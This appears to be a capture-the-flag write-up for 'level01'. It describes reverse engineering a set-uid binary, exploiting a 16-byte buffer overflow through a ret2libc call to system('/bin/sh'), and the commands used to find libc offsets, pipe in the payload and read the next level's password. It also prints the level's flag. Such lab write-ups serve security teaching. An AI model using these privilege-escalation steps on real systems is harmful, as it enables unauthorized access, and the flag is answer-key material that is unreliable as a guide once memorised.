

## Level 01
## Source Code

## Walkthrough
- We will R.E the binary inside Ghidra.
- We found that the username is `dat_will` and the password is `admin`.
- No matter what, the program will print `incorrect password...` and return 1.
- We found that the buffer where the password is stored is vulnerable to a buffer overflow.
- Indeed, the buffer is only 16 bytes, but we can write up to 100 bytes through `fgets`.
- We will use this to call the glibc function `system` with `/bin/sh` as argument.
- This will spawn a thread as level02 because the set-uid bits is set in the permissions of `level01` binary. 
## Command use
    nm -D /lib32/libc.so.6  | grep system
    strings -t x -a /lib32/libc.so.6 | grep "/bin/sh"
## Answer
    python craft_payload.py (This will generate our payload to exploite the buffer overflow)
    cat /tmp/payload - | ./level01
    cat /home/users/level02/.pass
## Flag
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv